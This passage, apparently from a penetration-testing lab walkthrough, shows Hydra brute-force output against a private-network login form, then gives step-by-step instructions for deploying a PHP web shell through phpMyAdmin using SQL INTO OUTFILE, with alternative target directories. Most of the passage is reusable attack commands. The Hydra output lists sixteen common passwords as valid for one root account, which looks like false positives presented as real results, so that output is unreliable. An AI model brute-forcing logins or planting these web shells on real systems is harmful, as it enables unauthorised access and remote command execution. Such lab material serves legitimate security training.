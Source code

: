 ```bash

[80][http-post-form] host: 192.168.74.162 login: root password: babygirl
[80][http-post-form] host: 192.168.74.162 login: root password: 1234567
[80][http-post-form] host: 192.168.74.162 login: root password: 12345
[80][http-post-form] host: 192.168.74.162 login: root password: password
[80][http-post-form] host: 192.168.74.162 login: root password: monkey
[80][http-post-form] host: 192.168.74.162 login: root password: nicole
[80][http-post-form] host: 192.168.74.162 login: root password: 123456789
[80][http-post-form] host: 192.168.74.162 login: root password: abc123
[80][http-post-form] host: 192.168.74.162 login: root password: princess
[80][http-post-form] host: 192.168.74.162 login: root password: daniel
[80][http-post-form] host: 192.168.74.162 login: root password: 123456
[80][http-post-form] host: 192.168.74.162 login: root password: iloveyou
[80][http-post-form] host: 192.168.74.162 login: root password: lovely
[80][http-post-form] host: 192.168.74.162 login: root password: rockyou
[80][http-post-form] host: 192.168.74.162 login: root password: jessica
[80][http-post-form] host: 192.168.74.162 login: root password: 12345678

1 of 1 target successfully completed, 16 valid passwords found
```


![[Pasted image 20250408100656.png]]


4. **Web Shell Deployment via phpMyAdmin**:  

   After successfully logging into phpMyAdmin with the credentials found during the brute force attack, you can deploy a web shell using one of these methods:

   **Method 1: Direct File Write Using SQL**

   5. Log in to phpMyAdmin using the credentials found (e.g., username: root, password: 123456)
   6. Click on the "SQL" tab at the top of the interface
   7. Enter the following SQL command to write a PHP web shell directly to the web server's directory:

```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php";
```

   8. If you encounter a permission error, try different web-accessible directories:

```sql
   -- Try alternative directories if the first attempt fails

   SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/shell.php";

   -- or

   SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/images/shell.php";

   -- or

   SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/tmp/shell.php";

```
